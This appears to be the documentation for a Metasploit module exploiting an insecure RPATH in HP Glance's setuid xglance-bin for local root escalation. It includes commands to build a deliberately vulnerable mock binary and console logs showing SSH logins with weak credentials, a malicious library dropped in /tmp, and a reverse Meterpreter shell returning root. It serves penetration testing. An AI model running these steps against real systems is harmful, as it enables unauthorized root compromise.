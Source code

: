 ## Vulnerable Application


This exploit takes advantage of xglance-bin, part of
HP's Glance (or Performance Monitoring) version 11 'and subsequent',
which was compiled with an insecure RPATH option.  The RPATH includes
a relative path to -L/lib64/ which can be controlled by a user.
Creating libraries in this location will result in an
escalation of privileges to root.

### Mock Application

Unfortunately the application is a pay for application and the version is many years old by the time the
PoC was released.  Instead, we use a mock binary based on the permissions noted in the original CVE
announcement, and the `ldd` details from the PoC.

The following commands were performed on Fedora 31 to create the binary.
When the binary was pushed to rhel7.1 for testing, a 'of size' libXm.so.4 was required
so ```cp /lib64/libffi.so.6 ./-L/lib64/libXm.so.4``` was enough to make the binary
vulnerable.

    ```
    sudo su
    cd ~
    dnf install motif-devel
    
    cat > main.c << DONE
    #include <stdio.h>
    #include <Xm/Xm.h>
    
    void main(){
        printf("HP xglance-bin emulator %d\n",XmVERSION);
        char* x = XmCvtXmStringToCT(NULL);
        printf("%p",x);
    }
    
    DONE
    
    
    mkdir -p ./-L/lib64;
    cd ./-L/lib64;
    ```
The follow commands copies files to the path for building.
However, they may not be installed on a default rhel system.

    ```
    # libXm.so.3 may fail on newer systems like fedora 31
    cp /usr/lib64/libXm.so.3 .;
    cp /usr/lib64/libXm.so.4 libXm.so.3;
    cp /usr/lib64/libXp.so.6 .;
    cp /usr/lib64/libXt.so.6 .;
    cd ../..;
    ```
    gcc -lXm main.c -o xglance-bin -Wl,-rpath=-L/lib64:/usr/lib64:/usr/X11R6/lib64:/opt/perf/lib64;
    mkdir -p /opt/perf/bin/;
    cp xglance-bin /opt/perf/bin/;
    chown root:bin /opt/perf/bin/xglance-bin;
    chmod 4555 /opt/perf/bin/xglance-bin;
    ```

To confirm the file is vulnerable, run:
    ```
    [fedora@fedora31 ~]$ ldd /opt/perf/bin/xglance-bin | grep -- -L/lib64/
            libXt.so.6 => -L/lib64/libXt.so.6 (0x00007f727441b000)
            libXp.so.6 => -L/lib64/libXp.so.6 (0x00007f72742b2000)
    ```
We'll want to see one or more `libX*.so*` files with `-L/lib64/`.


## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Get a session
  4. Do: ```use exploit/linux/local/hp_xglance_priv_esc```
  5. Do: ```set session #```
  6. Do: ```run```
  7. You should get a root shell.
 
## Options

### COMPILE

If the .so exploit should be compiled on the system.  `gcc` is required.
More noisey, but more AV resilient. Default is `true`.

### GLANCE_PATH

Path to the `xglance-bin` executable.  Default is `/opt/perf/bin/xglance-bin`.

## Scenarios

### Mock binary on Fedora 31 with compile

    ```
    [*] Processing xglance.rb for ERB directives.
    resource (xglance.rb)> use auxiliary/scanner/ssh/ssh_login
    resource (xglance.rb)> set rhosts 2.2.2.2
    rhosts => 2.2.2.2
    resource (xglance.rb)> set username fedora
    username => fedora
    resource (xglance.rb)> set password fedora
    password => fedora
    resource (xglance.rb)> run
    [+] 2.2.2.2:22 - Success: 'fedora:fedora' ''
    [*] Command shell session 1 opened (1.1.1.1:34379 -> 2.2.2.2:22) at 2020-04-19 14:39:45 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    ```
    ```
    resource (xglance.rb)> use exploit/linux/local/hp_xglance_priv_esc
    resource (xglance.rb)> set session -1
    session => -1
    resource (xglance.rb)> set verbose true
    verbose => true
    resource (xglance.rb)> rexploit
    [*] Reloading module...
    [!] SESSION may not be compatible with this module.
    [*] Started reverse TCP handler on 1.1.1.1:4444
    [+] xglance-bin found, and linked to vulnerable relative path -L/lib64/ through libXt.so.6
    [*] Deleting exploit folder: /tmp/-L
    [*] Creating exploit folder: /tmp/-L/lib64/
    [+] gcc is installed
    [*] Live compiling exploit on system...
    [*] Max line length is 65537
    [*] Writing 106298 bytes in 7 chunks of 61359 bytes (octal-encoded), using printf
    [*] Next chunk is 61584 bytes
    [*] Next chunk is 60411 bytes
    [*] Next chunk is 61525 bytes
    [*] Next chunk is 61438 bytes
    [*] Next chunk is 61757 bytes
    [*] Next chunk is 30375 bytes
    [*] uploading payload
    [*] Writing '/tmp/.u4aLoiq' (207 bytes) ...
    [*] Max line length is 65537
    [*] Writing 207 bytes in 1 chunks of 630 bytes (octal-encoded), using printf
    [*] Launching xglance-bin...
    [*] Transmitting intermediate stager...(106 bytes)
    [*] Sending stage (980808 bytes) to 2.2.2.2
    [*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:55298) at 2020-04-19 14:40:05 -0400
    
    meterpreter > getuid
    Server username: no-user @ fedora31 (uid=0, gid=1000, euid=0, egid=1000)
    meterpreter > shell
    Process 1699 created.
    Channel 1 created.
    whoami
    root
    ^Z
    Background channel 1? [y/N]  y
    meterpreter > sysinfo
    Computer     : 2.2.2.2
    OS           : Fedora 31 (Linux 5.3.7-301.fc31.x86_64)
    Architecture : x64
    BuildTuple   : i486-linux-musl
    Meterpreter  : x86/linux
    meterpreter > 
    ```

### Mock binary on rhel 7.1 no compile

    ```
    [*] Processing xglance.rb for ERB directives.
    resource (xglance.rb)> use auxiliary/scanner/ssh/ssh_login
    resource (xglance.rb)> set rhosts 2.2.2.2
    rhosts => 2.2.2.2
    resource (xglance.rb)> set username redhat
    username => redhat
    resource (xglance.rb)> set password redhat
    password => redhat
    resource (xglance.rb)> run
    [+] 2.2.2.2:22 - Success: 'redhat:redhat' ''
    [*] Command shell session 1 opened (1.1.1.1:45901 -> 2.2.2.2:22) at 2020-04-19 14:59:53 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    ```
    ```
    msf exploit(linux/local/hp_xglance_priv_esc) > rexploit
    [*] Reloading module...

    [!] SESSION may not be compatible with this module.
    [*] Started reverse TCP handler on 1.1.1.1:4444 
    [+] xglance-bin found, and linked to vulnerable relative path -L/lib64/ through libXm.so.4
    [*] Deleting exploit folder: /tmp/-L
    [*] Creating exploit folder: /tmp/-L/lib64/
    [*] Dropping pre-compiled exploit on system...
    [*] Writing '/tmp/-L/lib64/libXm.so.3' (368248 bytes) ...
    [*] Max line length is 65537
    [*] Writing 368248 bytes in 23 chunks of 46385 bytes (octal-encoded), using printf
    [*] Next chunk is 53790 bytes
    [*] Next chunk is 38675 bytes
    [*] Next chunk is 38759 bytes
    [*] Next chunk is 38694 bytes
    [*] Next chunk is 38757 bytes
    [*] Next chunk is 38658 bytes
    [*] Next chunk is 63466 bytes
    [*] Next chunk is 62734 bytes
    [*] Next chunk is 63857 bytes
    [*] Next chunk is 63812 bytes
    [*] Next chunk is 46324 bytes
    [*] Next chunk is 35989 bytes
    [*] Next chunk is 38405 bytes
    [*] Next chunk is 38978 bytes
    [*] Next chunk is 38950 bytes
    [*] Next chunk is 38935 bytes
    [*] Next chunk is 40042 bytes
    [*] Next chunk is 63562 bytes
    [*] Next chunk is 63562 bytes
    [*] Next chunk is 63521 bytes
    [*] Next chunk is 63618 bytes
    [*] Next chunk is 28951 bytes
    [*] uploading payload
    [*] Writing '/tmp/.u4aLoiq' (207 bytes) ...
    [*] Max line length is 65537
    [*] Writing 207 bytes in 1 chunks of 630 bytes (octal-encoded), using printf
    [*] Launching xglance-bin...
    [*] Transmitting intermediate stager...(106 bytes)
    [*] Sending stage (980808 bytes) to 2.2.2.2
    [*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:33373) at 2020-04-19 15:09:55 -0400
    [+] Deleted /tmp/-L/lib64/libXm.so.3
    [+] Deleted /tmp/.u4aLoiq
    
    meterpreter > getuid
    Server username: no-user @ localhost.localdomain (uid=0, gid=1000, euid=0, egid=1000)
    meterpreter > sysinfo
    Computer     : localhost.localdomain
    OS           : Red Hat Enterprise Linux 7 (Linux 3.10.0-229.el7.x86_64)
    Architecture : x64
    BuildTuple   : i486-linux-musl
    Meterpreter  : x86/linux
    meterpreter >
    ```
